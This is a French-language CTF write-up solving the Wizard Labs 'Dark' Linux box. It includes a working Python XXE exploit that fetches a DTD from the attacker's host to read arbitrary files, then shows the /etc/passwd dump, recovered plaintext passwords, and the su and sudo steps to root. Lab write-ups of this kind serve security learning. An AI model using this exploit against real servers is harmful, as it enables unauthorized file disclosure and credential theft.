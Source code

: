 # Solution du CTF Dark de Wizard-Labs

Vader
-----

*Dark* est une machine Linux proposée sur [Wizard Labs](https://labs.wizard-security.net/) avec une difficulté donnée à 4/10.  

La machine fait tourner un serveur web avec un formulaire de contact en index :  

![Wizard-Labs Dark CTF index page XXE](https://raw.githubusercontent.com/devl00p/blog/master/images/wizard-labs/dark_index.png)

En regardant le code source de la page on voit que les données sont soumises via Ajax au format XML :  

```javascript
function XMLFunction(){
    var xml = '' +
        '<?xml version="1.0" encoding="UTF-8"?>' +
        '<root>' +
        '<name>' + $('#name').val() + '</name>' +
        '<tel>' + $('#tel').val() + '</tel>' +
        '<email>' + $('#email').val() + '</email>' +
        '<password>' + $('#password').val() + '</password>' +
        '</root>';
    var xmlhttp = new XMLHttpRequest();
    xmlhttp.onreadystatechange = function () {
        if(xmlhttp.readyState == 4){
            console.log(xmlhttp.readyState);
            console.log(xmlhttp.responseText);
            document.getElementById('errorMessage').innerHTML = xmlhttp.responseText;

        }
    }
    xmlhttp.open("POST","process.php",true);
    xmlhttp.send(xml);
}
```

Et qui dit XML... dit potentiellement [XXE](https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing) (surtout sur un CTF évidemment).  

Exploiter des failles de ce type nécessite plus de préparatifs que d'autres failles (inclusion, injection de commandes, etc) alors on se remonte les manches et c'est parti !  

&XXE;
-----

Quand on soumet des données quelconques à ce formulaire on obtient un message d'erreur en retour :  

> Sorry, yolo@nawak.tld is already registered!

On va donc placer nos injections XXE dans le champ correspondant à l'adresse email afin d'exfiltrer les données.  

J'ai repris mon exploit écrit pour le [CTF DevOops de HackTheBox](http://devloop.users.sourceforge.net/index.php?article179/solution-du-ctf-devoops-de-hackthebox) et l'ai adapté pour que le format du XML et sa DTD correspondent aux données attendues.  

```python
import sys

import requests
from requests.exceptions import RequestException
from netifaces import ifaddresses

if len(sys.argv) < 2:
    print("Usage: python {} filename".format(sys.argv[0]))
    exit()

my_ip = ifaddresses("tun0")[2][0]["addr"]
filename = sys.argv[1]

xml = """<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root SYSTEM "http://{}/valid.dtd">
<root>
<name></name>
<tel></tel>
<email>&xxe;</email>
<password></password>
</root>""".format(my_ip)

dtd = """<?xml version="1.0" encoding="UTF-8" ?>
<!ELEMENT root (name, tel, email, password)>
<!ENTITY xxe SYSTEM "file://{}" >
<!ELEMENT name (#PCDATA)>
<!ELEMENT tel (#PCDATA)>
<!ELEMENT email (#PCDATA)>
<!ELEMENT password (#PCDATA)>""".format(filename)

with open("valid.dtd", "w") as fd:
    fd.write(dtd)

try:
    response = requests.post(
        "http://10.1.1.30/process.php",
        data=xml,
        headers={"content-type": "application/xml"}
    )

except RequestException as exception:
    print("Error occurred:", exception)
else:
    print(response.text)
```

On utilisera un serveur web quelconque (*python3 -m http.server* fait parfaitement l'affaire) pour héberger le fichier DTD qui est automatiquement modifié par l'exploit.  

On peut par exemple récupérer le fichier */etc/passwd*.  

```plain
$ python3 exploit.py /etc/passwd
Sorry, root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
mysql:x:102:106:MySQL Server,,,:/nonexistent:/bin/false
messagebus:x:103:107::/var/run/dbus:/bin/false
landscape:x:104:110::/var/lib/landscape:/bin/false
sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin
dark:x:1000:1000:Dark Lord,,,:/home/dark:/bin/bash
dhcpd:x:106:114::/var/run:/bin/false
lord:x:1001:1001:,,,:/home/lord:/bin/bash
 is already registered
```

On peut voir deux utilisateurs sur le système : *dark* et *lord*.  

J'ai tenté de récupérer les clés privées SSH de ces utilisateurs mais soit le fichier n'est pas présent, soit les permissions ne permettent pas d'y accéder... Il est temps de fouiller un peu plus sur ce serveur web.  

```plain
/img (Status: 301)
/js (Status: 301)
/backup (Status: 301)
/process.php (Status: 200)
```

*Gobuster* rapporte un fichier *backup* qui contient juste le path */home/lord/password\_backup.txt*.  

Grace à notre exploit on peut dumper ce fichier qui contient le mot de passe SSH pour *lord* : *sunnysunshine!5*.  

G0t r00t
--------

On trouve dans le home de l'utilisateur le premier flag ainsi qu'une clé dont on ignore le but :  

```plain
lord@dark:~$ cat user.txt
d38f--- snip ---d422

lord@dark:~$ cat key
jdhauioh38qhdu
```

Toutefois en cherchant les fichiers de l'utilisateur *lord* (avec *find / -type f -user lord -not -path '/proc/\*' 2> /dev/null*) on trouve un binaire à un emplacement incongru :  

```plain
-rwx--x--x 1 lord lord 8664 Oct  6 12:16 /var/tmp/locker
```

Donnons lui ce qu'il demande :  

```plain
lord@dark:~$ /var/tmp/locker
Usage: <key>
lord@dark:~$ /var/tmp/locker jdhauioh38qhdu
Checking License: jdhauioh38qhdu
dark password = supereasypassword101if
```

Grace à ce mot de passe on peux devenir *dark* via *su*. Cet utilisateur fait partie du groupe *sudo*, voyons voir ce que l'on peut faire :  

```plain
dark@dark:~$ sudo -l
[sudo] password for dark:
Matching Defaults entries for dark on dark:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User dark may run the following commands on dark:
    (ALL : ALL) ALL
dark@dark:~$ sudo su
root@dark:/home/dark# cat /root/root.txt
57e8--- snip ---632d3
```

Game over
---------

Toujours sympa ces petites failles XXE, pour le reste du très basique.  

Merci à *sahay* pour la box et [@h4d3sw0rm](https://twitter.com/h4d3sw0rm) pour *Wizard Labs*.

*Published November 17 2020 at 13:48*